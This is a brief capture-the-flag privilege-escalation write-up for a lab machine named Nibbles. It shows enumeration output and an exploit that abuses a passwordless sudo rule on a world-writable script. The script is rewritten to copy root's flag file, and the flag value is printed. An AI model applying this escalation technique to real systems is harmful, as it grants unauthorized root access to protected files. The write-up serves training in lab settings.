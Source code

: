 # <center> PrivEsc</center>
# whoami

```sh
nibbler@Nibbles:/$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

# Home directory

```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 12
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 personal
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 May 12 18:29 user.txt
```

# Personal Directory

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 8
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
-rw-r--r-- 1 root    root      33 May 12 18:32 toto
```

# sudo 

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l 
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

# The exploit is straight forward, the user nibbler can run monitor.sh as root and nibble has read & write access to monitor.sh


```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
cat /root/root.txt > todo.txt
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat todo.txt 
cc67a50ffb061cd971cff2f1a9c5e446
```